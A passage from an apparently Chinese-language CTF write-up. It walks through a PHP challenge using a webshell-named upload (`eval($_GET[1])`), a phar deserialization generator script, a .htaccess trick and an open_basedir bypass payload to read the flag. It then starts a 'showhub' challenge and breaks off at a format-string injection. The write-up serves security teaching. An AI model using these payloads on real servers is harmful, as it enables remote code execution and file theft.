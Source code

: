 可以获得根目录名，然后上传一个名为`<?php echo 1.1;eval($_GET[1])?>`的文件。之后修改phar文件：

```php
<?php
class dir {
    public $userdir;
    public $url;
    public $filename;
}

$a = new dir();
$a->userdir = "upload/{MD5_IP}/";
$b = new dir();
$b->userdir = $a;
$b->filename = "/var/www/html/{WEB_ROOT_DIR}/upload/{MD5_IP}/evil";

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER();?>;");
$phar->setMetadata($b);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>

```

上传并调用，就可以访问evil.txt了，不过现在还不能作为php文件执行，还要上传.htaccess文件，之后就可以使其作为php文件执行了。

然后会遇到`open_basedir`限制，绕过即可，Payload如下：

```
ini_set('open_basedir', '..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');var_dump(scandir('/'));
```

会发现flag文件，读出来即可。

## 备注

1. 利用`data:image/png;base64,`，实现文件上传。
2. 对于程序结束时自动销毁的对象，其析构函数的工作目录为计算机的根目录。

# showhub

## 题目描述

打开网址是一个建设中的网站，只提供注册和登录功能。随意注册了一个账号，登录后发现一个WebConsole功能，但点击显示需要admin账户。

题目也给出了网站的源码包。

## 解题思路

网站是MVC架构，根据业务逻辑定位到注册功能的实现代码，有格式化字符串注入漏洞：
